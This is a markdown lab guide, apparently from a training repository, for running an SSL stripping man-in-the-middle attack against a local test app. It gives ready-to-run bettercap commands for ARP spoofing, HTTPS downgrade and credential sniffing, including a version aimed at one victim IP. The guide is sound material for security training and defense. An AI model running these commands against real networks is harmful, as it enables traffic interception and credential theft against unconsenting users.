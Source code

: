 # SSL Stripping Lab Guide

## Overview
This lab demonstrates SSL downgrade attacks using SSL stripping techniques. The goal is to intercept HTTPS traffic and capture credentials transmitted in plaintext for security research and defense training.

## Prerequisites
- Linux system with network access
- Bettercap installed
- Python 3 with requests library
- Network interface capable of packet injection
- Victim simulator (included)

## Tools Comparison

### Bettercap vs Ettercap
- **Bettercap**: Recommended - built-in SSL stripping, no custom filters needed
- **Ettercap**: Requires custom filter files, more complex setup

## Lab Setup

### 1. Install Bettercap
```bash
sudo apt install bettercap
```

### 2. Enable IP Forwarding
```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
sudo sysctl -w net.ipv4.conf.all.send_redirects=0
```

### 3. Start SSL Stripping Attack

**Basic command (replace `eth0` with your interface):**

```bash
sudo bettercap -iface eth0 -eval "net.recon on; set arp.spoof.fullduplex true; arp.spoof on; set http.proxy.sslstrip true; http.proxy on; net.sniff on"
```

**Target specific victim:**
```bash
sudo bettercap -iface eth0 -eval "set arp.spoof.fullduplex true; set arp.spoof.targets [VICTIM_IP]; arp.spoof on; set http.proxy.sslstrip true; http.proxy on; net.sniff on"
```

### 4. Start BlueLedger Target Application
```bash
cd /home/hwoomer/Documents/BlueLedger
docker compose up
```

This starts the BlueLedger app with:
- HTTP server on port 5000
- HTTPS server on port 5001 (with self-signed certificate)

### 5. Run Victim Simulator
In a separate terminal:
```bash
python3 victim_simulator.py
```

**Note**: Update victim simulator target to `https://[TARGET_IP]:5001/api/auth/login`

## Attack Components

### Bettercap Modules Used
- `arp.spoof`: ARP poisoning for MITM positioning
- `http.proxy`: HTTP proxy with SSL stripping
- `net.sniff`: Packet capture for credential extraction
- `net.recon`: Network reconnaissance

### SSL Stripping Process
1. ARP spoofing positions attacker as gateway
2. HTTPS requests intercepted and downgraded to HTTP
3. Victim receives HTTP response (appears normal)
4. Credentials transmitted in plaintext
5. Bettercap captures and logs credentials

## Expected Results

### Captured Credentials
Monitor bettercap output for POST data containing:
- `username=Employee@sinamoa.com`
- `password=Employee123!@#`
- `csrf_token=dummy_token`

### Traffic Flow
1. Victim attempts HTTPS connection to port 5001 (BlueLedger HTTPS)
2. Bettercap intercepts and strips SSL
3. Plaintext HTTP request forwarded to port 5000 (BlueLedger HTTP)
4. BlueLedger backend accepts both HTTP and HTTPS
5. Credentials captured in transit by bettercap

## Victim Simulator Details
- Sends login attempts every 30 seconds
- Uses realistic User-Agent headers
- Targets configurable IP address
- Simulates typical web application login flow

## Defense Considerations
This lab helps understand:
- SSL stripping attack vectors
- Importance of HSTS (HTTP Strict Transport Security)
- Certificate pinning effectiveness
- User awareness of URL schemes (HTTP vs HTTPS)

## Lab Cleanup
1. Stop bettercap with Ctrl+C
2. Stop victim simulator with Ctrl+C
3. Disable IP forwarding (optional):
   ```bash
   echo 0 > /proc/sys/net/ipv4/ip_forward
   ```

## Notes
- This setup requires no custom configuration files
- Works out of the box with standard tools
- Demonstrates practical SSL downgrade vulnerability
- Suitable for security research and training environments

## Troubleshooting
- Ensure proper network interface selection
- Verify ARP spoofing is working with `net.show`
- Check that victim and attacker are on same network segment
- Monitor bettercap logs for SSL stripping activity